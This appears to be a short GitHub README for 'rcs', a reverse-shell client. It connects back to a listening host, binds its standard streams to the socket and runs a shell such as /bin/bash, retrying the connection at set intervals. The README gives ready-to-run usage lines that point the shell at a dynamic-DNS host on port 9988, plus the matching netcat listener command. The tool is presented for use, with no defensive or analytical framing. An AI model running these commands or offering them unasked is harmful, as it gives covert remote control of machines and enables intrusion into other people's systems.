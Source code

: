 # rcs
Remote Client Shell

Process ('rcs') starts a conection. If any server responses, the client duplicate STDIN_FILENO, STDOUT_FILENO, and STDERR_FILENO and execve() a new process specified at 'rcs' parameters (maybe '/bin/bash').

'rcs' connection request is able to be retried (parameter) and sleep (parameter) at each connect() fails, waiting the server goes listenning.
 
 
Usage: $ ./rcs < IP> < PORT> < SHELL> < N_RETRY_CONNECT> < RETRY_SECONDS>
  
$ ./rcs sample.noip.com 9988 '/bin/bash' 10 5 2>/dev/null
 
Remote (netcat) usage: nc -nvlp < PORT> 
  
$ nc -nvlp 9988
